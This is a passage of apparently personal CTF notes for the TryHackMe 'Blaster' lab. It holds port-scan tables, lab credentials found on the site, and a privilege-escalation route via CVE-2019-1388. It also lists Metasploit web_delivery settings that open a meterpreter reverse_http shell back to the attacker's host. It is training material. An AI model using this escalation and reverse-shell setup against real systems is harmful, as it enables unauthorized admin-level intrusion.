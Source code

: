 TryHackMe Blaster

Dienstag, 8. September 2020

19:56

 

Flags:
======

<table>
<thead>
<tr class="header">
<th>#</th>
<th>Found</th>
<th>Entry</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>User Flag</td>
<td>C:\Users\wade\Desktop\user.txt</td>
<td>RDP with Credentials</td>
</tr>
<tr class="even">
<td>Root Flag</td>
<td>C:\Users\Administrator\Desktop\root.txt</td>
<td>RDP with Credentials +<br />
CVE-2019-1388</td>
</tr>
</tbody>
</table>

 
=

Host Discovery:
===============

 

<table>
<thead>
<tr class="header">
<th>IP</th>
<th>OS</th>
<th>Scanned</th>
<th>Done</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>#0</td>
<td>Windows Server 2008 R2 - 2012<br />
 </td>
<td>Yes </td>
<td> </td>
</tr>
</tbody>
</table>

 

Services/Port Scanning
======================

 

<table>
<thead>
<tr class="header">
<th>IP #0 NMAP</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td><table>
<thead>
<tr class="header">
<th>Port</th>
<th>Service</th>
<th>Software/<br />
Version</th>
<th>Credentials</th>
<th>Done</th>
<th><p>Flag/Step</p>
<p>Solution</p></th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>80</td>
<td>HTTP</td>
<td>Microsoft IIS httpd 10.0</td>
<td><table>
<thead>
<tr class="header">
<th>Username</th>
<th>wade</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Password</td>
<td>parzival</td>
</tr>
</tbody>
</table></td>
<td>yes </td>
<td> </td>
<td> </td>
</tr>
<tr class="even">
<td>135</td>
<td>MSRPC</td>
<td>Microsoft Windows RPC</td>
<td> </td>
<td>yes </td>
<td> </td>
<td> </td>
</tr>
<tr class="odd">
<td>139</td>
<td>Netbios-SSN</td>
<td>Microsoft Windows netbios-ssn</td>
<td> </td>
<td>yes </td>
<td> </td>
<td> </td>
</tr>
<tr class="even">
<td>445</td>
<td>Microsoft-ds</td>
<td>Microsoft Windows Server 2008 R2 - 2012 microsoft-ds</td>
<td> </td>
<td>yes </td>
<td> </td>
<td>Samba/Active Directory</td>
</tr>
<tr class="odd">
<td>3306</td>
<td>Mysql</td>
<td><strong>Not scanned</strong></td>
<td> </td>
<td>yes </td>
<td> </td>
<td> </td>
</tr>
<tr class="even">
<td>3389</td>
<td>ms-wbt-server</td>
<td>Microsoft Remote Desktop (RDP)</td>
<td><table>
<thead>
<tr class="header">
<th>Username</th>
<th>wade</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Password</td>
<td>parzival</td>
</tr>
</tbody>
</table></td>
<td>yes </td>
<td> </td>
<td>Remote Desktop</td>
</tr>
<tr class="odd">
<td>3522</td>
<td>nssocketport</td>
<td><strong>Not scanned</strong></td>
<td> </td>
<td>yes </td>
<td> </td>
<td> </td>
</tr>
<tr class="even">
<td>5985</td>
<td>wsman</td>
<td><strong>Not scanned</strong></td>
<td> </td>
<td>yes </td>
<td> </td>
<td> </td>
</tr>
<tr class="odd">
<td>Other</td>
<td><table>
<tbody>
<tr class="odd">
<td><p>47001/tcp open winrm</p>
<p>49664/tcp open unknown</p>
<p>49665/tcp open unknown</p>
<p>49666/tcp open unknown</p>
<p>49667/tcp open unknown</p>
<p>49668/tcp open unknown</p>
<p>49670/tcp open unknown</p>
<p>49671/tcp open unknown</p>
<p>49672/tcp open unknown</p></td>
</tr>
</tbody>
</table></td>
<td><strong>Not scanned</strong></td>
<td> </td>
<td>yes </td>
<td> </td>
<td> </td>
</tr>
</tbody>
</table></td>
</tr>
</tbody>
</table>

 

Services/Port Detail
====================

 

<table>
<thead>
<tr class="header">
<th>3389 RDP</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td><table>
<thead>
<tr class="header">
<th> </th>
<th><blockquote>
<p>VE</p>
</blockquote></th>
<th>PoC</th>
<th>Exploit</th>
<th>Impact</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Vuln in Windows<br />
when HHUPD.exe present</td>
<td>CVE-2019-1388</td>
<td><a href="https://www.ecosia.org/search?tt=mzl&amp;q=cve+2019+1388+exploit">https://www.ecosia.org/search?tt=mzl&amp;q=cve+2019+1388+exploit</a></td>
<td><table>
<thead>
<tr class="header">
<th>Metasploit</th>
<th> </th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>Path</td>
<td>Exploit/multi/script/web_delivery</td>
</tr>
<tr class="even">
<td>Lhost</td>
<td>&lt;local ip&gt;</td>
</tr>
<tr class="odd">
<td>Target</td>
<td>2 (PSH)</td>
</tr>
<tr class="even">
<td>Paylaod</td>
<td>windows/meterpreter/reverse_http</td>
</tr>
</tbody>
</table>
<p>Need shell on target system to enter command generated by exploit to gain a meterpreter session</p></td>
<td>System Shell<br />
with Admin rights</td>
</tr>
</tbody>
</table>
<p> </p></td>
</tr>
</tbody>
</table>

 

<table>
<thead>
<tr class="header">
<th>80 HTTP</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td><table>
<thead>
<tr class="header">
<th>Path</th>
<th>Contents</th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>/retro</td>
<td>Retro Games, Books, Movies</td>
<td>Found potential password of user wade<br />
as forum comment</td>
</tr>
</tbody>
</table></td>
</tr>
</tbody>
</table>

 
